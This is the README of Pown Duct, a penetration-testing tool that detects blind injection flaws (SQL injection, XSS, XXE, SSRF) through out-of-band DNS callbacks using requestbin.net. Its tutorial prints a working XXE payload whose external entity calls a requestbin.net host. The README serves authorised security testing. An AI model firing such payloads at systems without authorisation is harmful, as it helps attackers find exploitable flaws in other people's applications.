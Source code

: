 [![Follow on Twitter](https://img.shields.io/twitter/follow/pownjs.svg?logo=twitter)](https://twitter.com/pownjs)
[![NPM](https://img.shields.io/npm/v/@pown/duct.svg)](https://www.npmjs.com/package/@pown/duct)
[![Fury](https://img.shields.io/badge/version-2x%20Fury-red.svg)](https://github.com/pownjs/lobby)

# Pown Duct

Essential tool for finding blind injection attacks.

## Credits

This tool is part of [secapps.com](https://secapps.com) open-source initiative.

```
  ___ ___ ___   _   ___ ___  ___
 / __| __/ __| /_\ | _ \ _ \/ __|
 \__ \ _| (__ / _ \|  _/  _/\__ \
 |___/___\___/_/ \_\_| |_|  |___/
  https://secapps.com
```

> **NB**: This tool is taking advantage of http://requestbin.net service. Future versions will use a dedicated, custom-built infrastructure.

## Quickstart

This tool is meant to be used as part of [Pown.js](https://github.com/pownjs/pown) but it can be invoked separately as an independent tool.

Install Pown first as usual:

```sh
$ npm install -g pown@latest
```

Invoke directly from Pown:

```sh
$ pown duct
```

Otherwise, install this module locally from the root of your project:

```sh
$ npm install @pown/duct --save
```

Once done, invoke pown cli:

```sh
$ ./node_modules/.bin/pown-cli duct
```

You can also use the global pown to invoke the tool locally:

```sh
$ POWN_ROOT=. pown duct
```

## Usage

```
pown duct <command>

Side-channel attack enabler

Commands:
  pown duct dns  DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
```

### `pown duct dns`

```
pown duct dns

DNS ducting

Options:
  --version  Show version number  [boolean]
  --help     Show help  [boolean]
  --channel  Restore channel  [string]
  --output   Output format  [string] [choices: "string", "hexdump", "json"] [default: "string"]
```

## Tutorial

There are cases when we need to perform an attack such as sql injection, XSS, XXE or SSRF but the target application is not providing any indication that it is vulnerable. One way to be sure if vulnerable is to try to inject a valid attack vector which forces a DNS resolver to ask for an attack controlled domain. If the resolution is successful, the attack will be considered successful.

> **NOTE**: You might be familiar with Burp Collaborator which provides a similar service for customers.

First, we need a disposable dns name to resolve:

```sh
$ pown duct dns
```

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/01.png)

Using the provided DNS, compose your payload. For example, the following could trigger trigger DNS resolution if XXE vulnerability is present.

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY bar SYSTEM "http://showmethemoney.bfa8b8d3c25f09d5429f.d.requestbin.net">
]>
<foo>
&bar;
</foo>
```

If the attack was successful, we will get a message in the terminal.

![screenshot](https://media.githubusercontent.com/media/pownjs/pown-duct/master/screenshots/02.png)
